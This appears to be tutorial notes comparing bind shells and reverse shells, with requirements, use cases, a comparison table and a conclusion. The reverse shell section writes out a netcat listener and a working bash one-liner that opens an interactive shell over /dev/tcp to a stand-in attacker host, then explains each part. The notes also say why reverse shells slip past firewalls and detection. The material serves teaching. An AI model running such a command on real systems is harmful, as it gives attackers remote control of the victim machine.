 ### **Bind Shell:**
- **What is it?**  
  In a bind shell, the victim's machine opens a specific port and listens for incoming connections, acting like a server. The attacker, acting as a client, connects to this open port. Once connected, the attacker can execute commands on the victim’s machine remotely.

- **Requirements:**  
  - The victim’s machine must have a public IP or be on the same network as the attacker (no NAT).
  - The attacker needs to know which port the victim has opened.

- **Use Case:**  
  Attackers use bind shells when the victim's machine is directly accessible over the internet. However, if the victim is behind NAT or a firewall, this method becomes difficult because the victim needs to expose a port publicly.

---

### **Reverse Shell:**
- **What is it?**  
  In a reverse shell, the attacker’s machine listens on a specific port, acting as a server. The victim’s machine, acting as a client, initiates a connection to the attacker’s machine. This is especially useful when the victim is behind NAT or a firewall since outbound connections are often allowed.

- **Example Command:**  
  - **Attacker (Listening on Port 8080):**  
    ```bash
    nc -lp 8080
    ```
  - **Victim (Executing Reverse Shell to Connect to Attacker):**  
    ```bash
    bash -i >& /dev/tcp/attacker-ip/8080 0>&1
    ```

- **Command Breakdown:**  
  - `bash -i`: Starts an interactive bash shell.  
  - `>&`: Redirects both stdout and stderr to a specified location.  
  - `/dev/tcp/attacker-ip/8080`: Opens a TCP connection to the attacker's machine on port 8080.  
  - `0>&1`: Redirects stdin to stdout, allowing bidirectional communication.

---

### **Key Differences:**  

| Aspect             | Bind Shell                                | Reverse Shell                               |
|--------------------|------------------------------------------|------------------------------------------|
| **Connection Initiation**  | Attacker connects to the victim's machine. | Victim connects to the attacker's machine. |
| **Network Restrictions**   | Blocked by NAT/firewalls since ports need to be open. | Easier to bypass NAT/firewalls as victims usually have outbound access. |
| **Flexibility**            | Limited to cases where the victim has a public IP. | Works in scenarios where victims are behind NAT or firewall. |
| **Stealth**                 | More detectable as the port remains open. | Harder to detect since it initiates an outbound connection. |

---

### **Use Cases:**  
- **Bind Shell:**  
  - When the victim's machine is directly accessible over the internet.
  - Attacker has knowledge of the open port.

- **Reverse Shell:**  
  - When the victim’s machine is behind NAT or a firewall.
  - Ideal when attackers need to bypass network restrictions.

---

### **Conclusion:**  
- **Bind Shell** is simple and effective when the victim has a public IP with an open port.  
- **Reverse Shell** is more flexible and practical in real-world scenarios, especially when dealing with NAT or firewall restrictions. Attackers often prefer reverse shells to evade network defenses.
